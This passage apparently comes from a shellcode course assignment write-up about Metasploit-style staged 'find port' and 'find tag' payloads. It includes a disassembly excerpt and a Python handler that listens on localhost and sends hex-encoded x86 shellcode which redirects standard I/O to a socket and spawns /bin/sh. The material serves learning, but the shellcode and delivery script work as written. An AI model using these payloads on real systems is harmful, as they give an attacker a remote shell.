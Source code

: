 ```nasm
   0x0040407f <+63>:	push   edx
   0x00404080 <+64>:	push   ebx
   0x00404081 <+65>:	mov    ecx,esp
   0x00404083 <+67>:	int    0x80
```

So we can see that this payload is very similar to the previous one, it use almost the same loop to run through all possible file descriptor numbers and to overwrite the standard I/O and pop a shell with execve syscall.
The only difference is that it use the recv syscall to try to read datas from the file descriptor then to compare them with the specified tag.

## Manualy handling staged payloads 

Finally to learn how to handle staged payload manualy I've done the following Python script,
It was much simpler than what I was thinking before starting this assignement :
```python
#!/usr/bin/python3

import socket
import time
import argparse

find_port = b"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x05\x39\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

find_tag = b"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x53\x4c\x41\x45\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
tag = b"SLAE"

parser = argparse.ArgumentParser()
parser.add_argument("type", choices=["port","tag"], help="Find specific port or tag")
args = parser.parse_args()

if args.type == "port": 
    payload = find_port
else :
    payload = find_tag


sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#sock.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)

ip = "127.0.0.1"
port = 1337
sock.bind((ip, port))

sock.listen(1)
print("[x] Started reverse handler on {}:{}".format(ip, port))

conn, address = sock.accept()
print("[x] Connection established from {}".format(address[0]))

print("[x] Sending second stage ({} bytes) to {}".format(len(payload),address[0]))
conn.send(payload)
time.sleep(1)

if args.type == "tag":
    print("[x] Sending tag '{}'".format(tag.decode()))
    conn.send(tag)

```